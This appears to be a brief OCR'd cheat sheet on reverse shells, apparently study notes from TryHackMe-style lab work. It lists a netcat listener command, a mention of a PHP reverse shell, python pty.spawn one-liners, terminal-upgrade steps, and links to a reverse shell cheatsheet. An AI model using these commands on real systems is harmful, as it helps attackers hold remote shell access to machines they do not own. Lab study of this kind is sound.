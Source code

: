 php reverse.shell

#rlwrap nc -lvnp <port>

“no tty present and no askpass program specified.” 
#python3 -c 'import pty; pty.spawn("/bin/sh")'
#python -c 'import pty;pty.spawn("/bin/bash")', 
#export TERM=xterm
#stty raw -echo; fg

https://www.kumaratuljaiswal.in/2021/01/tryhackme-intro-to-shell-all-about-shell.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

